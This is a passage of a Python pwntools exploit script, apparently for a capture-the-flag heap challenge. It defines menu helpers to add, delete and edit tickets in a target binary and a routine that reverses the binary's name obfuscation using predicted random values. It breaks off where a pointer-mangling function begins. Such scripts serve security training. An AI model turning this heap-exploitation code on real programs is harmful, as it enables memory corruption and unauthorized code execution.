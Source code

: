 ```python
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def get_rand():
    global rand_list
    return rand_list.pop(0)

def verif_name(p):
    strlen = lambda x : len(p.split(b"\x00")[0])
    length_p = strlen(p)
    p = p[:length_p][::-1]
    
    tmp_rand_list = [get_rand() for _ in range(length_p)]
    current_rand = get_rand()
    modulo_rand = current_rand % length_p

    p_val = s2n(p)
    for _ in range(modulo_rand):
        p_val = rev_grey_code(p_val)
    tmp_data = n2s(p_val)
    p = b"".join([p8((tmp_rand_list[i]&0xFF)^tmp_data[i]) for i in range(len(tmp_rand_list))])
    return p

def add(idx, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", str(idx).encode())
    io.sendafter(b": ", data)
    print("ADDED", idx)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", str(idx).encode())
    print("DELETED", idx)

def edit(idx, name=b"A\x00", data=b"\x00", write_data=True):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b": ", str(idx).encode())

    print("EDIT/VIEW", idx)
    if write_data is not True:
        name = verif_name(b"Vaints\x00")  # static wrong name
        io.sendafter(b": ", name) 
        io.recvuntil(b"this ticket belongs to ")
        resp = io.recvuntil(b"1. ", drop=True)
        return resp
    else:
        name = verif_name(name) 
        io.sendafter(b": ", name)
        io.sendafter(b": ", data)


def obf(pos, ptr):
```
